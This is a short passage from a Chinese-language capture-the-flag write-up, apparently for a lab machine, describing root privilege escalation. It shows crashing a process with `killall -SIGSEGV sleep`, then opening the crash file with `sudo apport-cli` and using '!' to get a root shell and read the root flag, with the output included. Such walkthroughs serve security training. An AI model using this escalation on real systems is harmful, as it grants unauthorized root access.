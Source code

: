 ```bash
58) SIGRTMAX-6  59) SIGRTMAX-5  60) SIGRTMAX-4  61) SIGRTMAX-3  62) SIGRTMAX-2
63) SIGRTMAX-1  64) SIGRTMAX
```

*另外，这种形式也行：`killall -SIGSEGV sleep`*

有crash文件就好办了，接下来根据PoC运行 `sudo apport-cli -c /var/crash/_usr_bin_sleep.1000.crash`，然后直接“!”调用命令即可：
```bash
 (...)
!id
uid=0(root) gid=0(root) groups=0(root)
!done  (press RETURN)
```


## flag: root

```bash
 (...)
!cat /root/root.txt
768c (...) 2781
!done  (press RETURN)
```


---

## 总结·后记

2023/11/28

